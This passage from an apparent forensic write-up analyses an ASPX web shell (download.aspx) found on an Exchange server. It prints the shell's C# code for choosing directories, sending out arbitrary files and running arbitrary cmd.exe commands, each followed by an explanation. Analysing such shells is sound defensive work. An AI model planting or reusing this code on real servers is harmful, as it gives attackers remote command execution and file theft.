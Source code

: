 <img src="/assets/img/as17.png" alt="" />

The query parameter (`fdir=C:\Windows\Temp\Tools`) makes it look like the attacker was either browsing or retrieving files from that directory. This strongly suggests that `download.aspx` was not a legitimate Exchange file but a custom web shell attacker deployed.

### **download.aspx** Web Shell Analysis

Reviewing the contents of `download.aspx` confirmed it to be a classic ASPX Shell. Below is a breakdown of its main functionality:

```csharp
string dir = Page.MapPath(".") + "/";
if (Request.QueryString["fdir"] != null)
    dir = Request.QueryString["fdir"] + "/";
dir = dir.Replace("\\", "/").Replace("//", "/");
```

**Purpose:** Determines the current working directory. Allows attackers to pivot into any folder by supplying `?fdir=<path>` in the URL.

```csharp
if ((Request.QueryString["get"] != null) && (Request.QueryString["get"].Length > 0))
{
    Response.ClearContent();
    Response.WriteFile(Request.QueryString["get"]);
    Response.End();
}
```
**Purpose:** Sends the requested file back to the browser. This is how files in `C:\Windows\Temp\Tools` were likely staged for exfiltration.

```csharp
Process p = new Process();
p.StartInfo.FileName = "cmd.exe";
p.StartInfo.Arguments = "/c " + txtCmdIn.Text;
p.StartInfo.UseShellExecute = false;
p.StartInfo.RedirectStandardOutput = true;
p.StartInfo.RedirectStandardError = true;
p.Start();
lblCmdOut.Text = p.StandardOutput.ReadToEnd() + p.StandardError.ReadToEnd();
```
**Purpose:** Executes arbitrary commands on the host using `cmd.exe`. Outputs are displayed back to the attacker in the browser. This is the most dangerous part — full code execution under the IIS worker process.
